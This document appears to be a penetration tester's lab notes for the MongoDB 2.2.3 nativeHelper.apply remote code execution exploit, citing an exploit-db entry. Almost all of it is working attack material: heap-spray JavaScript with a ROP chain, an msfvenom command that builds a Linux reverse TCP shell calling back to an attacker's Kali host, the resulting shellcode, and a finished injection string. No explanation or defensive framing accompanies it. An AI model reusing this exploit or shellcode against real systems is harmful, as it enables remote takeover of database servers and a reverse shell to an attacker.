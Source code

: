#### # MongoDB 2.2.3 - nativeHelper.apply Remote Code Execution
[https://www.exploit-db.com/exploits/24947](https://www.exploit-db.com/exploits/24947)
Original:
```
shellcode=unescape("METASPLOIT JS GENERATED SHELLCODE"); sizechunk=0x1000; chunk=""; for(i=0;i<sizechunk;i++){ chunk+=unescape("%u9090%u9090"); } chunk=chunk.substring(0,(sizechunk-shellcode.length)); testarray=new Array(); for(i=0;i<25000;i++){ testarray[i]=chunk+shellcode; } ropchain=unescape("%uf768%u0816%u0c0c%u0c0c%u0000%u0c0c%u1000%u0000%u0007%u0000%u0031%u0000%uffff%uffff%u0000%u0000"); sizechunk2=0x1000; chunk2=""; for(i=0;i<sizechunk2;i++){ chunk2+=unescape("%u5a70%u0805"); } chunk2=chunk2.substring(0,(sizechunk2-ropchain.length)); testarray2=new Array(); for(i=0;i<25000;i++){ testarray2[i]=chunk2+ropchain; } nativeHelper.apply({"x" : 0x836e204}, ["A"+"\x26\x18\x35\x08"+"MongoSploit!"+"\x58\x71\x45\x08"+"sthack is a nice place to be"+"\x6c\x5a\x05\x08"+"\x20\x20\x20\x20"+"\x58\x71\x45\x08"]);
```
```bash - kali
msfvenom -p linux/x86/shell_reverse_tcp LHOST=$KALI LPORT=443 -f js_le
```
%udb31%ue3f7%u4353%u6a53%u8902%ub0e1%ucd66%u9380%ub059%ucd3f%u4980%uf979%uc068%u77a8%u6898%u0002%ubb01%ue189%u66b0%u5150%ub353%u8903%ucde1%u5280%u6e68%u732f%u6868%u2f2f%u6962%ue389%u5352%ue189%u0bb0%u80cd
![[1._rlwrap]]
```
';shellcode=unescape("%udb31%ue3f7%u4353%u6a53%u8902%ub0e1%ucd66%u9380%ub059%ucd3f%u4980%uf979%uc068%u77a8%u6898%u0002%ubb01%ue189%u66b0%u5150%ub353%u8903%ucde1%u5280%u6e68%u732f%u6868%u2f2f%u6962%ue389%u5352%ue189%u0bb0%u80cd"); sizechunk=0x1000; chunk=""; for(i=0;i<sizechunk;i++){ chunk+=unescape("%u9090%u9090"); } chunk=chunk.substring(0,(sizechunk-shellcode.length)); testarray=new Array(); for(i=0;i<25000;i++){ testarray[i]=chunk+shellcode; } ropchain=unescape("%uf768%u0816%u0c0c%u0c0c%u0000%u0c0c%u1000%u0000%u0007%u0000%u0031%u0000%uffff%uffff%u0000%u0000"); sizechunk2=0x1000; chunk2=""; for(i=0;i<sizechunk2;i++){ chunk2+=unescape("%u5a70%u0805"); } chunk2=chunk2.substring(0,(sizechunk2-ropchain.length)); testarray2=new Array(); for(i=0;i<25000;i++){ testarray2[i]=chunk2+ropchain; } nativeHelper.apply({"x" : 0x836e204}, ["A"+"\x26\x18\x35\x08"+"MongoSploit!"+"\x58\x71\x45\x08"+"sthack is a nice place to be"+"\x6c\x5a\x05\x08"+"\x20\x20\x20\x20"+"\x58\x71\x45\x08"]);'
```